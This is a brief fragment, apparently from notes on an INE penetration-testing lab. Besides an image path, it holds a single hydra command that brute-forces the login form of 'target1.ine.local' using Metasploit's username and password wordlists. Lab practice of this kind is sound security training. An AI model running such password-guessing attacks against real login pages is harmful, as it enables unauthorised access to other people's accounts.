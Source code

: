 `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-post-form "/acp/login:login_name=^USER^&login_psw=^PASS^:F=Login"
`